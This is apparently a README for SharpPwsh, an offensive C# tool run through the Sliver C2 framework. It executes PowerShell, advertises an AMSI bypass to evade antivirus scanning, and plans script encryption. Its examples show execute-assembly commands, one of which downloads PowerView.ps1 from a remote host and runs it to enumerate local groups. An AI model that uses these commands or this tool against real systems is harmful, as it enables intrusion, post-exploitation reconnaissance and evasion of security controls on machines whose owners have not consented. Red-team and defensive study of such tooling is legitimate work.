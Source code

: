 # SharpPwsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution.

## Features
- Execute Powershell commands
- Load & execute remote script
- AMSI Bypass

## Examples

```
# execute powershell command
sliver > execute-assembly -i /home/hacker/SharpPwsh.exe -c whoami

# load remote script and execute
sliver > execute-assembly -i /home/hacker/SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Load & execute script from clipboard
- Compression & encryption support for scripts
- Multiple command support

## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

**Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.**